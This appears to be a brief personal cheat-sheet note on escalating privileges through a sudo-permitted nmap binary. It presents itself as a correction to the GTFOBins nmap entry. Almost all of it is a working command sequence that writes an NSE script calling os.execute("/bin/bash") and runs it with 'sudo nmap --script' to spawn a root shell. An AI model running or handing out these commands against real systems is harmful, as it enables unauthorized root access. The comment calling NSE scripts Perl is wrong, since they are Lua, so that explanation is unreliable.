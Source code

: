 -- -
This is a reminder because what is in [gtfobins](https://gtfobins.github.io/gtfobins/nmap/#sudo) is misleading. 
```bash
 # create nmap script, which is just a perl script that opens bash I believe
 echo 'os.execute("/bin/bash")' > /tmp/rootme.nse

# verify
cat /tmp/rootme.nse

# exploit
sudo /usr/bin/nmap --script /tmp/rootme.nse
```